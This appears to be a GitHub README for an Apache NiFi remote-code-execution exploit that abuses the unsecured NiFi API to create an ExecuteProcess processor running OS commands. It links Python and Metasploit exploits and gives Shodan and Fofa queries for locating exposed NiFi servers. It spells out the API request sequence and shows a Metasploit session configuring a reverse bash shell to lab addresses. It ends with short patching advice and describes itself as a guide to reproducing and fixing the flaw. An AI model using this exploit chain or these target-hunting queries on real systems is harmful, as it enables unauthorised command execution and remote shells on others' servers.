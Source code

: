 # Apache NiFi Processor RCE (Oct 3 2020)
Apache NiFi is a software project to automate the flow of data between software systems.  
This module uses the NiFi API to create an ExecuteProcess processor that will execute OS commands. The API must be unsecured (or credentials provided) and the ExecuteProcess processor must be available. An ExecuteProcessor processor is created then is configured with the payload and started. The processor is then stopped and deleted.

API Executing Process: https://nifi.apache.org/docs/nifi-docs/components/org.apache.nifi/nifi-standard-nar/1.12.1/org.apache.nifi.processors.standard.ExecuteProcess/  

Vulnerable architectures: **x86, x64**  
Vulnerable platforms: **Linux, OSX, Unix, Windows**  
Vulnerable protocols: **http, https**  

**Please be aware that this exploit leaves signs of a compromise in a log file (Example: SQL injection data found in HTTP log) and modifies some configuration setting on the target machine, this is not a guide on how to exploit others, this is a guide on how to reproduce the vulnerability and how to fix it.**  

Python Raw Exploit: https://raw.githubusercontent.com/imjdl/Apache-NiFi-Api-RCE/master/exp.py  

MetaSploit Exploit: https://dl.packetstormsecurity.net/2011-exploits/apache_nifi_processor_rce.rb.txt  
MetaSploit Linux Default Payload: **cmd/unix/reverse_bash**  
MetaSploit Windows Default Payload: **cmd/windows/reverse_powershell**  

Shodan Query: `title:"NiFi"`  
Fofa Query: `title=="NiFi"`  

# How does the Exploit work
## GET /nifi-api/access/config: Used to check whether the target is running NiFi and whether authentication is required.  
Example Output:
<pre>{
    "config": {
	    "supportsLogin": true
	}
}</pre>

## POST /nifi-api/access/token: Used to obtain an access token using supplied credentials (if authentication is required).  
Content-Type: **application/x-www-form-urlencoded**  
HTTP Parameters: **username, password**  
| Status code  | Description |
|---|---|
| 200	| Successful operation. |
| 400	|	NiFi was unable to complete the request because it was invalid. The request should not be retried without modification. |
| 403	|	Client is not authorized to make this request. |
| 409	|	Unable to create access token because NiFi is not in the appropriate state. (i.e. may not be configured to support username/password login. |
| 500	|	Unable to create access token because an unexpected error occurred. |  

## GET /nifi-api/process-groups/root: Used to obtain the ID of the root process group.  
Example Output:
<pre>{
    "revision": {REDACTED},
    "id": "value",
    "uri": "value",
    "position": {REDACTED},
    "permissions": {REDACTED},
    "bulletins": [{REDACTED}],
    "disconnectedNodeAcknowledged": true,
    "component": {REDACTED},
    "status": {REDACTED},
    "versionedFlowSnapshot": {REDACTED},
    "runningCount": 0,
    "stoppedCount": 0,
    "invalidCount": 0,
    "disabledCount": 0,
    "activeRemotePortCount": 0,
    "inactiveRemotePortCount": 0,
    "versionedFlowState": "value",
    "upToDateCount": 0,
    "locallyModifiedCount": 0,
    "staleCount": 0,
    "locallyModifiedAndStaleCount": 0,
    "syncFailureCount": 0,
    "localInputPortCount": 0,
    "localOutputPortCount": 0,
    "publicInputPortCount": 0,
    "publicOutputPortCount": 0,
    "parameterContext": {REDACTED},
    "inputPortCount": 0,
    "outputPortCount": 0
}</pre>
## POST /nifi-api/process-groups/\<ROOT-PROCESSOR-GROUP-ID\>/processors: Used to create an ExecuteProcess processor in the root group.  
Content Type: **application/json**  
Post Data:
<pre>{
    "component": {
        "type": "org.apache.nifi.processors.standard.ExecuteProcess"
    },
    "revision": {
        "version": 0
    }
}</pre>

## PUT /nifi-api/processors/\<NEW-PROCESSOR-ID\>: Used to configure the new ExecuteProcess processor and run the OS command.
## PUT /nifi-api/processors/\<NEW-PROCESSOR-ID\>/run-status: Used to stop the new ExecuteProcess processor prior to deletion.  
## DELETE /nifi-api/processors/\<NEW-PROCESSOR-ID\>/threads: Used to terminate threads in case stopping failed.
## DELETE /nifi-api/processors/\<NEW-PROCESSOR-ID\>: Used to delete the processor.

## Using apache_nifi_processor_rce's Exploit
<pre>msf6 > use exploit/multi/http/apache_nifi_processor_rce
[*] Using configured payload cmd/unix/reverse_bash</pre>
## Local IP for Reverse Shell Connection
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > set LHOST 192.168.60.7
LHOST => 192.168.60.7</pre>
## Local Port for Reverse Shell Connection
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > set LPORT 4444
LPORT => 4444</pre>
## Remote IP for Exploit Execution
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > set RHOST 192.168.60.57
RHOST => 192.168.60.57</pre>
## Remote Port for Exploit Execution
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > set RPORT 8080
RPORT => 8080</pre>
## Checking Current Exploit Options
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > show options</pre>
![msf1](https://user-images.githubusercontent.com/94451745/149518743-e2ad0802-819a-4037-9798-8422f0c236c4.png)
## Running Exploit
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > run</pre>
![msf2](https://user-images.githubusercontent.com/94451745/149520071-97c27099-82df-493b-9ead-a5a96afcc29b.png)
## Vulnerability patching
Upgrade to the latest version, add/change current credentials and setup an IP whitelist in your current firewall settings.
___
From: https://github.com/jm0x0/apache_nifi_processor_rce
